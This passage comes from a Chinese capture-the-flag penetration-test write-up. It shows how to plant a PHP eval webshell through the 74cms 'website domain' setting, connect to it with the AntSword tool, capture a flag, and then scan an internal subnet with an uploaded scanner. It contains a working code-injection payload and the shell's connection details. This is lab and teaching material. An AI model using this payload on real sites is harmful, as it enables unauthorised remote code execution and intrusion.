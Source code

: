 点击`系统`，`网站域名`输入`http://127.0.0.1/.',eval($_POST[cmd]),'/.com`：

![image-20220612112000998442-1655800306409392.png](img/网安行动渗透赛 Local.assets/d469861f3599161866abff3d2cbe89a2.png)

点击`保存修改`：

![image-20220612112022243891-1655800307920469.png](img/网安行动渗透赛 Local.assets/75f5d12dd8b375227ffc5c245304ec87.png)

启动蚁剑工具：

![image-20220612112116956314-1655800309407288.png](img/网安行动渗透赛 Local.assets/5b9b462443ac7a4f260f7a2c642119be.png)

添加shell：

![image-20220612112137830101-1655800310826496.png](img/网安行动渗透赛 Local.assets/feeba675ebfab4ea6eeffe467be6e38d.png)

shell信息如下：

```
URL地址：http://192.168.1.150/74cms/upload/index.php?m=admin

连接密码：cmd
```

![image-20220612112244453341-1655800312324589.png](img/网安行动渗透赛 Local.assets/68c53c2e937b1c2b4115bf6a191fd975.png)

点击`添加`后右键URL点击`虚拟终端`，进入终端后查看权限：

![image-20220612112357749897-1655800313752772.png](img/网安行动渗透赛 Local.assets/e8f3a1bc657abdc4746b8b6b7facab23.png)

双击URL进入文件管理，发现flag：

![image-20220621154722685527-1655800315194918.png](img/网安行动渗透赛 Local.assets/e8b72419dba9a7853d223df65f495fa7.png)

```
flag{B6AB-7C20-AC52-F913-E56E-327A-FD82-1F8A}
```

##### 任务5：内网主机探测（T1595 - 主动扫描）

```
本场景的第5个任务是利用扫描器探测内网存活主机。

远程命令执行漏洞，用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变$PATH或程序执行环境的其他方面来执行一个恶意构造的代码。

该任务可以通过以下操作完成。
```

将s扫描器上传至蚁剑中：

![image-20220612173333390539-1655800316670975.png](img/网安行动渗透赛 Local.assets/b15f77839b2b6413256977a6be3273cd.png)

蚁剑工具中`s.exe`文件所在目录下右键点击`>_ 在此处打开终端`，执行命令：

```
s.exe tcp 192.168.2.0/24 22,80,135,8080,3389 > 1.txt
```
